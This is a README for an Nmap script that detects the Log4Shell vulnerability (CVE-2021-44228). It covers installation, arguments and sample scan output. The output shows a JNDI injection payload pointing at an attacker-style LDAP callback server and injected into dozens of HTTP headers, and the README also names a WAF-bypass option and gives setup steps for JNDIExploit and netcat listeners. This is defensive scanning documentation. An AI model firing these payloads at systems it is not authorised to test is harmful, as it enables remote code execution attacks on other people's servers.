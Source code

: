 # Nmap Log4Shell NSE script for discovery Apache Log4j RCE (CVE-2021-44228)

**CVE-2021-44228** is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:

-  Lightweight Directory Access Protocol (LDAP)
-  Secure LDAP (LDAPS)
-  Remote Method Invocation (RMI)
-  Domain Name Service (DNS)

If the vulnerable server uses log4j to log requests, the exploit will then request a malicious payload over JNDI through one of the services above from an attacker-controlled server. Successful exploitation could lead to RCE.


## Installation

Locate where your nmap scripts are located on your system:

- for *nix system it might be `~/.nmap/scripts/` or `$NMAPDIR`
- for Mac it might be `/usr/local/Cellar/nmap/<version>/share/nmap/scripts/`
- for Windows it might be `C:\Program Files (x86)\Nmap\scripts`

Copy the provided script (log4shell.nse) into that directory run `nmap --script-updatedb` to update the nmap script DB.


## Usage

    nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 172.17.42.2 
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 21:26 CET
    Nmap scan report for 172.17.42.1
    Host is up (0.000096s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | log4shell: 
    |   Payloads:
    |     ${jndi:ldap:/172.17.42.1:389/log4shell}
    |   Path: /
    |   Method: GET
    |   Headers: 
    |     Access-Control-Request-Method: 200 
    |     Accept: 200 
    |     Access-Control-Request-Headers: 200 
    |     Accept-Charset: 200 
    |     X-Api-Version: 200 
    |     Warning: 200 
    |     Pragma: 200 
    |     Upgrade-Insecure-Requests: 200 
    |     Range,: 400 
    |     Hostname: 200 
    |     Content-Length: 400 
    |     Dnt: 200 
    |     Date: 200 
    |     Username: 200 
    |     Content-Encoding: 200 
    |     Content-Type: 200 
    |     Forwarded: 200 
    |     Max-Forwards: 200 
    |     Accept-Encoding: 200 
    |     Referer: 200 
    |     IP: 200 
    |     IPaddress: 200 
    |     X-Amz-Date: 200 
    |     X-Amz-Target: 200 
    |     TE: 200 
    |     Content-Disposition: 200 
    |     X-Requested-With: 200 
    |     upgrade-insecure-requests: 200 
    |     Authorization: 200 
    |     Cookie: 200 
    |     User-Agent: 200 
    |     Accept-Language: 200 
    |     Proxy-Authorization: 200 
    |     Expect: 417 
    |     From: 200 
    |     Accept-Datetime: 200 
    |     X-CSRF-Token: 200 
    |     Origin: 200 
    |_  Note: (!) Inspect the callback server (172.17.42.1:389) or web-application (172.17.42.2:8080) logs

#### Arguments

- `log4shell.callback-server`: The callback server (eg. `172.17.42.1:1389`)
- `log4shell.http-headers`: Comma-separated list of HTTP headers (eg. `X-Api-Version,User-Agent,Referer`)
- `log4shell.http-method`: HTTP method (default: `GET`)
- `log4shell.url-path`: URL path (default: `/`)
- `log4shell.waf-bypass`: Use WAF bypass payloads (default: `false`)


### Method A:

Download JNDIExploit from GitHub (https://github.com/giterlizzi/JNDIExploit/releases/download/v1.2/JNDIExploit.zip)

Start JNDIExploit server:

    java -jar JNDIExploit.jar

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See JNDIExploit output for see the received LDAP query

    [+] Received LDAP Query: log4shell
    [!] Invalid LDAP Query: log4shell

### Method B:

Listen a TCP port with netcat (or ncat):

    ncat -vkl 1389   # Ncat
    nc -lvnp 1389    # Netcat

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See the target IP address in netcat (or ncat) output:

    Ncat: Connection from 172.17.0.2.
    Ncat: Connection from 172.17.0.2:38898.


# Legal Disclaimer

This project is made for educational and ethical testing purposes only. Usage of nmap-log4shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License

The project is licensed under MIT License.


# Author

- Giuseppe Di Terlizzi (giterlizzi)

